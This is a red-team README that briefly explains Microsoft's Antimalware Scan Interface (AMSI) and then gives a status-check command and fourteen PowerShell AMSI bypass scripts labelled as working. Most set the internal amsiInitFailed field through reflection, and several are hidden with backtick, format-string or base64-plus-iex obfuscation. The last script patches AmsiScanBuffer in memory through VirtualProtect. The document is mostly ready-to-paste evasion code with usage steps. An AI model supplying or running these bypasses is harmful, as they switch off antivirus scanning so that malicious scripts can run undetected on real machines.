

# RedTeam-PowerShell-AMSI-Bypass

# **What is AMSI**

Microsoft Antimalware Scan Interface (AMSI) is a Windows security interface introduced by Microsoft to allow applications and scripting engines to submit content to antivirus and endpoint security products for inspection before execution.

PowerShell integrates with AMSI so that:
- Scripts
- Command strings
- Dynamically generated code
- Deobfuscated content
can be scanned by the installed security provider before execution continues.

When PowerShell runs suspicious content, it typically:

- **Sends the content buffer to AMSI**
- **AMSI forwards it to Microsoft Defender or another AV/EDR**
- **The provider analyzes the content**
- **A detection verdict is returned**
- **PowerShell either allows or blocks execution**
<br><br>
The AMSI integration inside PowerShell is implemented through internal .NET classes within the System.Management.Automation assembly.
---


## **How Bypass Works**

1. **Reflection is a .NET feature that allows code to**:
   - inspect assemblies.
   - enumerate types.
   - access methods and fields.
   - interact with internal members at runtime.

2. **The scripts access an internal PowerShell class**:
   - System.Management.Automation.AmsiUtils.

3. **Inside this class there is an internal static field commonly referenced as**:
   - amsiInitFailed.
This field indicates whether AMSI initialization failed inside the current PowerShell process.

4. **And this script set it's value to**:
   - $null,$true, SetValue($null,$true) uses $null because the field is static, not because $null itself is being assigned to the field. The actual field value being assigned is $true.
<br><br>
This causes the current PowerShell process to behave as though AMSI initialization failed, effectively disabling AMSI scanning for that PowerShell session.
---

## **How To Use**

### **First run the status check command to get the current status/value of AMSI,Defender,Firewall**
 - If it says running run the AMSI Bypass Script and then run again Status check Script.

**Status Check**
```bash
$s=Get-MpComputerStatus; $fw=Get-NetFirewallProfile; $t=[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils'); $f=$t.GetField('amsiInitFailed','NonPublic,Static'); $a=$f.GetValue($null); $sb=(Get-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging" -ErrorAction Ignore).EnableScriptBlockLogging; $tm=(Get-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\Transcription" -ErrorAction Ignore).EnableTranscripting; [pscustomobject]@{"Real-Time Protection"=if($s.RealTimeProtectionEnabled){"TRUE & Running"}else{"Turned Off"};"IOAV Protection"=if($s.IoavProtectionEnabled){"TRUE & Running"}else{"Turned Off"};"Behavior Monitoring"=if($s.BehaviorMonitorEnabled){"TRUE & Running"}else{"Turned Off"};"Antispyware"=if($s.AntispywareEnabled){"TRUE & Running"}else{"Turned Off"};"Anti-Malware Service"=if($s.AMServiceEnabled){"TRUE & Running"}else{"Turned Off"};"Firewall Domain"=if(($fw|? Name -eq 'Domain').Enabled){"TRUE & Running"}else{"Turned Off"};"Firewall Private"=if(($fw|? Name -eq 'Private').Enabled){"TRUE & Running"}else{"Turned Off"};"Firewall Public"=if(($fw|? Name -eq 'Public').Enabled){"TRUE & Running"}else{"Turned Off"};"AMSI Status"=if(-not $a){"AMSI is Running"}else{"AMSI NOT Running / Bypassed"};"Script Block Logging"=if($sb){"Enabled"}else{"Not Configured"};"Transcription Logging"=if($tm){"Enabled"}else{"Not Configured"};"Language Mode"=$ExecutionContext.SessionState.LanguageMode} | Format-List
```
<br><br>

### **1. AMSI Bypass Script [Past both line Seprate / one by one] (Working)**
```bash
$v1=[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils'); if($v1){$v2=$v1.GetField('amsiInitFailed','NonPublic,Static'); if($v2){"AMSI Bypass Patch Applied Successfully!"}else{"Field not found"}}else{"Type not resolved"}; 

$v2.SetValue($null,$true)
```


### **2. AMSI Bypass Script [Past Each Line on New Line] (Working)**
```bash
$amsi=[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils'); if(-not $amsi){Write-Error "Type not resolved"; return}; 

$field=$amsi.GetField('amsiInitFailed','NonPublic,Static'); if(-not $field){Write-Error "Field not found"; return}; 

$field.SetValue($null,$true);Write-Output "AMSI Bypass Patch Applied Successfully!"
```


### **3. AMSI Bypass Script [Past Each Line on New Line] (Working)**
```bash
$amsi = [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils');

if (-not $amsi) { Write-Error "Type not resolved"; return };

$field = $amsi.GetField('amsiInitFailed','NonPublic,Static');

if (-not $field) { Write-Error "Field not found"; return };

$field.SetValue($null, $true);Write-Output "AMSI Bypass Patch Applied Successfully!"
```


### **4. AMSI Bypass Script [Past Each Line on New Line] (Working)**
```bash
$A1=[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils'); if(-not $A1){Write-Error "Type not resolved"; return}; $A2=

$A1.GetField('amsiInitFailed','NonPublic,Static'); if(-not $A2){Write-Error "Field not found"; return}; 

$A2.SetValue($null,$true);Write-Output "AMSI Bypass Patch Applied Successfully!"
```


### **5. AMSI Bypass Script [Past Each Line on New Line] (Working)**
```bash
$c = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('JGEgPSBbUmVmXS5Bc3NlbWJseS5HZXRUeXBlKCdTeXN0ZW0uTWFuYWdlbWVudC5BdXRvbWF0aW9uLkFtc2lVdGlscycpOyAkYiA9ICRhLkdldEZpZWxkKCdhbXNpSW5pdEZhaWxlZCcsJ05vblB1YmxpYyxTdGF0aWMnKTs=')); iex $c

$d = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('JGIuU2V0VmFsdWUoJG51bGwsJHRydWUpOw==')); iex $d; Write-Output "AMSI Bypass Patch Applied Successfully!"
```

### **6. AMSI Bypass Script [Past Each Line on New Line] (Working)**
```bash
${byP`Ass} = (-join ([regex]::Matches(("{7}{11}{10}{14}{5}{9}{13}{6}{15}{2}{0}{4}{1}{16}{12}{8}{3}" -f'e2',("{0}{1}"-f '41','6d'),'6',("{2}{0}{1}" -f'9',("{1}{0}"-f '73','6c'),('7'+'46')),'e',('61'+'6'),'6',("{1}{0}{3}{2}"-f'37','5','6',("{1}{2}{0}" -f'65',('97'+'3'),'74')),('95'+'5'),("{3}{2}{0}{1}"-f '6',("{1}{0}"-f('74'+'2'),'e'),'5',("{0}{1}" -f '76',("{0}{1}"-f'5',('6d'+'6')))),'e4','d2','36',("{3}{0}{1}{2}" -f ('41'+'7'),("{1}{0}"-f '46','57'),('f6'+'d'),'e'),("{1}{0}"-f '6e',('d6'+'1')),("{2}{1}{0}" -f("{0}{1}" -f("{0}{1}" -f('46'+'9'),'6'),'f'),'7','1'),'7'), '..') | ForEach-Object { [char]([convert]::ToUInt32(${_}.Value, 16)) }))

${am`si} = [Text.Encoding]::UTF8.GetString((0x61,0x6d,0x73,0x69,0x49,0x6e,0x69,0x74,0x46,0x61,0x69,0x6c,0x65,0x64))
${aS`sEm`BLY} = [Ref].Assembly
${Ty`PE} = ${ASsemB`LY}.GetType(${ByP`A`Ss})
${fIE`ld} = ${t`Ype}.GetField(${A`msi}, ("{3}{2}{4}{0}{1}" -f("{1}{0}" -f 'ti',('S'+'ta')),'c',('on'+'P'),'N',("{1}{0}" -f("{1}{0}"-f', ',("{0}{1}"-f('b'+'li'),'c')),'u')))
${F`IELd}.SetValue(${N`UlL}, ${TR`Ue})
```

### **7. AMSI Bypass Script [One Liner] (Working)**
```bash
$c = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('JGEgPSBbUmVmXS5Bc3NlbWJseS5HZXRUeXBlKCdTeXN0ZW0uTWFuYWdlbWVudC5BdXRvbWF0aW9uLkFtc2lVdGlscycpOyAkYiA9ICRhLkdldEZpZWxkKCdhbXNpSW5pdEZhaWxlZCcsJ05vblB1YmxpYyxTdGF0aWMnKTs=')); iex $c; $d = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('JGIuU2V0VmFsdWUoJG51bGwsJHRydWUpOw==')); iex $d; Write-Output "AMSI Bypass Patch Applied Successfully!"
```


### **8. AMSI Bypass Script [One Liner] (Working)**
```bash
[System.Reflection.Assembly]::LoadWithPartialName('System.Management.Automation').GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```


### **9. AMSI Bypass Script [One Liner] (Working)**
```bash
$t=[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils'); if($t){$f=$t.GetField('amsiInitFailed','NonPublic,Static'); $target=$null; $value=$true; if($f){"AMSI Bypass Patch Applied Successfully!"; $f.SetValue($target,$value)} else {"Field missing"}} else {"Type missing"}
```

### **10. AMSI Bypass Script [Obfuscated one-liner (most reliable)] (Work On Old windows Versions)**
```bash
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

### **11. AMSI Bypass Script [Base64 encoded One Liner for filtered environments] (Work On Old windows Versions)**
```bash
[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)
```

### **12. AMSI Bypass Script [PowerShell 6+ One Liner] (Work On Old windows Versions)**
```bash
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('s_amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

### **13. AMSI Bypass Script  [Obfuscated One Liner] (Work On Old windows Versions)**
```bash
S`eT-It`em ( 'V'+'aR' +  'IA' + (("{1}{0}"-f'1','blE:')+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a'))  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} ); Write-Output "AMSI Bypass Patch Applied Successfully!"
```


### **14. AMSI Bypass Script  [copy this script  ans save it as .ps1 file and run in powershell] (Work On Old windows Versions)**
```bash
$A=[Ref].Assembly.GetType((([char]65)+([char]109)+([char]115)+([char]105)+([char]85)+([char]116)+([char]105)+([char]108)+([char]115))
)
$F=$A.GetField((([char]65)+([char]109)+([char]115)+([char]105)+([char]73)+([char]110)+([char]105)+([char]116)+([char]70)+([char]97)+([char]105)+([char]108)+([char]101)+([char]100)),'NonPublic,Static')
$F.SetValue($null,$true)
$Win=[Ref].Assembly.GetType('System.Management.Automation.Utils')
$PtrType = [System.IntPtr]
$Win=[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')
$AmsiDLL = [System.Runtime.InteropServices.Marshal]::GetHINSTANCE($Win.Module)
$GetProcAddress = (Add-Type -MemberDefinition '
[DllImport("kernel32.dll", SetLastError=true)]
public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);' -Name "Win32" -Namespace Win32Functions -PassThru)
$AmsiScanBufferPtr = $GetProcAddress::GetProcAddress($AmsiDLL,"AmsiScanBuffer")
$Patch = [byte[]]@(0xB8,0x57,0x00,0x07,0x80,0xC3) # Mov eax,0x80070057; ret
$UnsafeNativeMethods = @"
using System;
using System.Runtime.InteropServices;
public class UnsafeNativeMethods {
    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@
Add-Type $UnsafeNativeMethods
$oldProtect = 0
[UnsafeNativeMethods]::VirtualProtect($AmsiScanBufferPtr, [uint32]6, 0x40, [ref]$oldProtect) | Out-Null
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $AmsiScanBufferPtr, $Patch.Length)
[UnsafeNativeMethods]::VirtualProtect($AmsiScanBufferPtr, [uint32]6, $oldProtect, [ref]$oldProtect) | Out-Null
Write-Output "AMSI Bypass Patch Applied Successfully!"
```
<br><br>
### **Proof of Cencept**

